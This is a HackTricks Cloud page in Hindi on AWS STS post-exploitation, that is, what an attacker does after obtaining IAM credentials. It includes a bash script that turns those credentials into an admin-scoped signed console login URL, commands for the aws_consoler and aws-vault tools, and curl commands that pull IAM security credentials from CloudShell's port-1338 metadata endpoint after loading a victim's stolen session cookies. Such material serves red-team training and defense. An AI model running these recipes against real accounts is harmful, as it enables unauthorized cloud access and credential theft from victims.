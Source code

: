 # AWS - STS Post Exploitation

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोज़िटरी में PRs सबमिट करके।

</details>
{% endhint %}

## STS

अधिक जानकारी के लिए:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM क्रेडेंशियल्स से कंसोल तक

यदि आपने कुछ IAM क्रेडेंशियल्स प्राप्त कर लिए हैं, तो आप निम्नलिखित टूल्स का उपयोग करके **वेब कंसोल तक पहुंचने** में रुचि ले सकते हैं।\
ध्यान दें कि उपयोगकर्ता/भूमिका के पास **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### कस्टम स्क्रिप्ट

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (न तो gov और न ही cn) का उपयोग करेगी ताकि आपको एक साइन किया हुआ URL मिल सके जिसे आप वेब कंसोल के अंदर लॉगिन करने के लिए उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) के साथ **एक वेब कंसोल लिंक उत्पन्न कर सकते हैं**।
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे ग्रहण किया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो विकास वातावरण में AWS क्रेडेंशियल्स को सुरक्षित रूप से संग्रहीत और एक्सेस करने के लिए उपयोग किया जाता है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके एक **browser console session** भी प्राप्त कर सकते हैं।
{% endhint %}

#### Console से IAM Creds तक

[**मूल रूप से इस पोस्ट में खोजा गया**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), यदि आप किसी वेब कंसोल तक कुछ पहुंच को समझौता करने में सफल होते हैं (शायद आपने कुकीज़ चुरा लीं और .aws फ़ोल्डर तक पहुंच नहीं हो सकी), तो आप उस उपयोगकर्ता के लिए **CloudShell** के माध्यम से कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell IAM क्रेडेंशियल्स को **पोर्ट 1338 पर एक अप्रलेखित एंडपॉइंट** के माध्यम से उजागर करता है। पीड़ित से सत्र कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell पर नेविगेट कर सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
